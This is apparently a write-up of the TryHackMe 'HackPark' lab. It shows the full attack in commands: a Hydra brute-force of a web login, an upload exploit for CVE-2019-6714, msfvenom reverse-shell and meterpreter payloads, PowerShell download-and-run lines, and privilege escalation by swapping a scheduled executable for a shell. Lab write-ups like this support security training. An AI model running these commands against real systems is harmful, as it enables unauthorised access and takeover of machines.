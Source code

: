 # HackPark

**Room Link:** [https://tryhackme.com/room/hackpark](https://tryhackme.com/room/hackpark)



### Using Hydra to brute-force a login

**What request type is the Windows website login form using?**

<figure><img src="../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

**Crafting request for Hydra**

Sent a failed login request to Burp to see what it would look like. With this info I was able to craft my request for hydra. I just needed to get the URL and everything that is sent after VIEWSTATE and just change the input to use ^USER^ and ^PASS^ to brute force these fields.

<figure><img src="../../.gitbook/assets/image (20) (1) (1).png" alt=""><figcaption></figcaption></figure>

I could also do this without burp by just opening the console and getting the info from there

<figure><img src="../../.gitbook/assets/image (7) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt 10.10.110.93 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=vvTqZ%2FG4tEKhQoxeTpJ%2FyGxM9ZY9ZIvd6YMUS%2BoY3uaQCjC%2BJRdlkd8rbIQsDHztL%2BjsAvOLJhxU7vTNo3GP%2FLEmsndGPNAlCDn%2FB%2FrK2ynp9QkhRe9iqKBUmM5FQT2kX%2Bg%2BfPDNnTuzqW5IlmTujw4sLEzbvvec9FDW4cbQevgTj1tHnKx0vMmkVah5imro0o%2BHvQ5%2FGvpafEs1NdnW6wrSsUFuXnYzletKCdLG%2FgSb7bCDOK4ukZK%2F1cMOgYtjOCU4gk4M7PhQcYZmGpAN7pPVCMpX2YwGnTSgBPPmCB6avoLqG5jRS%2F3PYMjsqEGcD9P9S555GMQPxtfyvOEaJw%2B%2BZELKU2yVYr4uWxamEITsWNAT&__EVENTVALIDATION=Tp%2B5DS80H3PFB8ipJ24uKyHkPhSkqKD7GFJlc2U6IaO61l68aholdIjrZJ%2FsotSi0QxRBQjayWovmb2SU%2Fk6lY%2BOpju62jOGDkAvqcdNsqGrgf3vrAYw88XT2ONABFvDTR771I2YAr7JylJ0HbBZV83nGvvXWSC6rmKDGn80%2FuszTjDZ&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed" -V
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (3) (3) (2).png" alt=""><figcaption><p>Credentials found</p></figcaption></figure>

### Compromise the machine

**Now you have logged into the website, are you able to identify the version of the BlogEngine?**

<figure><img src="../../.gitbook/assets/image (22) (1) (1).png" alt=""><figcaption></figcaption></figure>

**What is the CVE?**

CVE-2019-6714

**Exploit Link:** [https://www.exploit-db.com/exploits/46353](https://www.exploit-db.com/exploits/46353)

**Using the public exploit, gain initial access to the server. Who is the webserver running as?**

Created the file mentioned in the exploit, just changed the IP to my IP.

<figure><img src="../../.gitbook/assets/image (6) (1) (2).png" alt=""><figcaption></figcaption></figure>

Setup a nc listener&#x20;

```
rlwrap nc -lvnp 4445
```

Upload the file

<figure><img src="../../.gitbook/assets/image (24) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12) (2) (1).png" alt=""><figcaption></figcaption></figure>

Navigate to the link and the nc listener should have caught it

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (20) (2).png" alt=""><figcaption></figcaption></figure>

### **Windows Privilege Escalation**

**Setting up meterpreter shell**

**Kali #1**&#x20;

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.218.233 LPORT=1337 -e x86/shikata_ga_nai -f exe -o reverse.exe
python2 -m SimpleHTTPServer 81
```

**Kali #2**&#x20;

```
msfconsole 
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.10.218.233  
set LPORT 1337 
run
```

**Victim**&#x20;

```
cd C:\Windows\Temp powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.218.233:81/reverse.exe','reverse.exe')" reverse.exe
```

**What is the OS version of this windows machine?**

<figure><img src="../../.gitbook/assets/image (1) (2) (2).png" alt=""><figcaption></figcaption></figure>

**Further enumerate the machine. What is the name of the abnormal **_**service**_** running?**

****

**Check Windows Exploit Suggester**

**Kali**

```
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git 
cd Windows-Exploit-Suggester/ 
python3.9 windows-exploit-suggester.py --update 
python3.9 windows-exploit-suggester2.py --database 2022-12-03-mssb.xls --systeminfo systeminfo.txt
```

**Transfer WinPeas**

**Kali**&#x20;

```
wget https://github.com/carlospolop/PEASS-ng/releases/download/20221127/winPEASx64.exe 
python2 -m SimpleHTTPServer 81
```

**Victim**&#x20;

```
cd C:\Windows\Temp
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.218.233:81/winPEASx64.exe','winPEASx64.exe')" 
winPEASx64.exe
```

``![](<../../.gitbook/assets/image (25) (1) (1).png>)``

<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

```
cd C:\Program Files (x86)\SystemScheduler\Events
type 20198415519.INI_LOG.txt
```

We can see Message.exe is kept being ran by Administrator so we just need to replace the file with our reverse shell, setup a listener and wait for the Administrator to try to run it.

<figure><img src="../../.gitbook/assets/image (9) (3) (1).png" alt=""><figcaption><p>Message.exe is called by Administrator </p></figcaption></figure>



**Kali**&#x20;

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.218.233 LPORT=1337 -f exe -o Message.exe 
python2 -m SimpleHTTPServer 81 rlwrap nc -lvnp 1337
```

**Victim**&#x20;

```
cd C:\Program Files (x86)\SystemScheduler 
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.218.233:81/Message.exe','Message.exe')"
```

<figure><img src="../../.gitbook/assets/image (16) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

